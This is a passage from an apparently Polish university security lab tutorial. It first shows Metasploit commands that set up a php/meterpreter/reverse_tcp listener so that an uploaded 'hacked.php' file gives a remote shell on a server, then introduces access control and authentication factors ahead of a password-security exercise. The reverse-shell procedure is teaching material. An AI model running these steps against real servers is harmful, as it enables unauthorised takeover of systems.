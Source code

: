 Następnie przygotowujemy się do odebrania połączenia ze zdalną powłoką, gdy zostanie wykonany złośliwy plik po stronie serwera. W tym celu wykonujemy polecenie `msfconsole` . Rozważany shell w tym przypadku to `reverse_shell`, więc musimy wybrać aodpowiedni exploit zwiazany z tym shellem:
```bash
use exploit/multi/handler
```
```bash
set PAYLOAD php/meterpreter/reverse_tcp
```
```bash
set LHOST <adres ip ktory został podany we wcześniej wygenerowanym pliku>
```
```bash
set LPORT <nr portu który został podany we wcześniej wygenerowanym pliku>
```
```bash
exploit
```

Nasłuchiwanie zostało uruchomione. Należy teraz przeprowadzić upload wcześniej wygenerowanego pliku `hacked.php` na serwer. Po poprawnym uploadzie pliku musi zostać on otworzony po stronie serwera. Kiedy to nastąpi powinniśmy na naszym nasłuchującym PC odebrać `reverse_shell`. Dzięki temu kontrolujemy już serwer i możemy korzytsać z poleceń `meterpretera`.

# 2. Kontrola dostępu i łamanie haseł

Użytkownicy cyberprzestrzeni są już przyzwyczajeni do mechanizmmów kontroli dostępu (*access control*), a nawet ich wymagamy już na etapie projektowania nowego systemu cyfrowego. Kontrola dostępu służy do tego, aby nieupoważnione osoby trzecie uzyskały dostęp do naszych zasobów. 

Kontrola dostępu do systemu przebiega w trzech fazach:
1. Faza identyfikacji - podmiot przedstawia swoje unikalne cechy, które go identyfikują (np. login)
2. Uwierzytelnienie (*authentication*) - weryfikacja, czy podana tożsamość nie jest dostarczana przez fałszywy podmiot. Standardowym mechanizem jest mechanizm haseł. Do wielu systemów dostęp odbywa się za pomocą podania jednego czynnika uwierzytelniającego (*single factor authentication*). Trendem wzrostowym jest stosowanie uwierzytelnienia dwóch czynników lub więcej.(*two factor authentication*, *multi factor authentication*).
3. Autoryzacja (*authorization*) - określenie czy podmiot ma upoważneinie dostępu do zasobu lub do wykonania akcji (np. podstawowe określenie uprawnień do edycji dokumentu - read-only/write/delete/execute)

>W języku polskim nie występuje słowo autentykacja i jest to błędny przekład z języka angielskiego słowa authentication. Poprawnym słowem jest uwierzytelnienie i należy tej poprawności przestrzegać.

W ramach procesu uwierzytelniania użytkownik wykorzystuje się czynniki należące do jednej z trzech klas
- *coś co wiem* - najważniejszym przykładem są tutaj hasła
- *coś co mam* - np. fizyczny token kryptograficzny, certyfikaty cyfrowe
- *coś czym jestem* - czyli przede wszystkim biometria, np. odcisk palca czy model twarzy.

Pojedyncze uwierzytelnianie polega na weryfikacji jednej informacji, należącej do którejkolwiek z powyższych klas. Wieloczynnikowe uwierzytelnianie weryfikuje po kolei dane z różnych klas - np. hasło statyczne + uwierzytelnienie telefoniczne. W ramach tego laboratorium przyjrzymy się czynnikkowi z klasy czynników *coś co wiem* - bezpieczeństwu haseł.
